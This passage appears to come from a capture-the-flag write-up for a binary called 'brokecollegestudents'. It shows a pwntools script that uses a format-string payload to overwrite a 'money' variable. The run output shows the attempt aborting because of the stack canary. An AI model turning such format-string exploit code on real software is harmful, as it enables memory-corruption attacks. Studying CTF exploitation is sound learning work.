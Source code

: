 ```python
write = {money:10000000}
payload = fmtstr_payload(6,write)

p.recvuntil(b'Choice: ')
p.sendline(b'1')
p.recvlines(8)
p.sendline(b'1')
p.recvuntil(b'CHOOSE: ')
p.sendline(b'1')
p.recvuntil(b'name: ')
p.sendline(payload)
p.recvlines(3)
balance = p.recvline().decode().split()[2]
log.success("Money balance now: %s" % balance)
log.info("Now go on a shopping spree!!")
p.interactive()
```

Unfortunately there is no way this can work. Writing such a large value causes the stack canary to bust us:

```shell
$ python exp.py
[*] 'brokecollegestudents'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './brokecollegestudents': pid 877737
[*] leaked base address: 55a3e93b4000
[*] money location: 55a3e93b801c
Traceback (most recent call last):
  File "exp.py", line 52, in <module>
    balance = p.recvline().decode().split()[2]
  File "/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py", line 490, in recvline
    return self.recvuntil(self.newline, drop = not keepends, timeout = timeout)
  File "/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/process.py", line 727, in recv_raw
    raise EOFError
EOFError
[*] Process './brokecollegestudents' stopped with exit code -6 (SIGABRT) (pid 877737)
```

SIGABRT means we tripped the stack canary protection.
